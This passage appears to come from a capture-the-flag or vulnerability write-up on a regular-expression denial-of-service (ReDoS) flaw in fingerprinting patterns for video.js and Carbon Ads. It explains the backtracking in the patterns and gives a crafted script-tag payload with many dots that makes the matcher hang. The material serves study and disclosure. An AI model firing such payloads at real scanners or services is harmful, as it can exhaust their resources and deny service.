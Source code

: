 More specifically 

```re
/^(?:https?:)?\/\/(?:[^\/]+\.)*cdnjs\.cloudflare\.com\/ajax\/libs\/video\.js\/([\d\.]+)\/\;version:\1/
```

*Please note that the `\;version:\1` part is only appended to retrieve version from the regular expression when parsing the code and therefore is not part of the executed expression.*

The regular expression can be visualized as:

![](./screenshots/redos.png)

We can see that there is a double loop where a dot character matches both `None of: "/"` and `.`. This is exactly what we need to perform backtracking based [ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS) attack. With the payload including enough dots, we can achieve our goal with the below snippet.

```html
<script   
  src="https://.....................................adnjs.cloudflare.com/ajax/libs/video.js/12312/">
</script>
```


We also found another vulnerable RegExp in `Carbon Ads` package which is almost identical to the above one, shown below.

```json 
    "Carbon Ads": {
      "cats": [
        36
      ],
      "html": "<[a-z]+ [^>]*id=\"carbonads-container\"",
      "icon": "Carbon Ads.png",
      "js": {
        "_carbonads": ""
      },
      "script": "^(?:https?:)?\\/\\/(?:[^\\/]+\\.)*carbonads\\.com\\/",
      "website": "http://carbonads.net"
    }
```

#### Pass the check

![](./screenshots/error.png)
